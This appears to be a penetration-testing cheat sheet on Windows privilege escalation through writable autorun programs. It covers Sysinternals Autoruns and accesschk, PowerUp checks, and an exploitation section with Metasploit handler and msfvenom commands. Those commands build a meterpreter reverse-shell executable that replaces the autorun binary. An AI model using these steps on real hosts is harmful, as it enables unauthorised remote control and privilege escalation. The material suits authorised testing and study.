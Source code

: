 # Windows AutoRun

https://docs.microsoft.com/en-us/sysinternals/



- - Autoruns
  - sysinternal tool
  - will show what is running at logon 

- accesscheck.exe
  - sysinternal tool
  - shows what access users or groups have to resources

```
accesschk64.exe -wvu "C:\Path\to\program"
```



- If a file automatically runs, that you have write access to, you can replace the binary for priv esc



- Powerup will also find autoruns that can be modified 
  - using Invoke-all-checks

- Also look for binaries that are missing. 

## Exploitation

- Metasploit

```
use multi/handler
set payload windows.meterpreter/reverse_tcp
set LHOST

msfvenom -p windows/meterpreter/reverse_tcp lhost= -f exe -o program.exe
```

- Copy the payload to the host
- Replace the affected binary 
- Logon/Logoff/Restart the host or just wait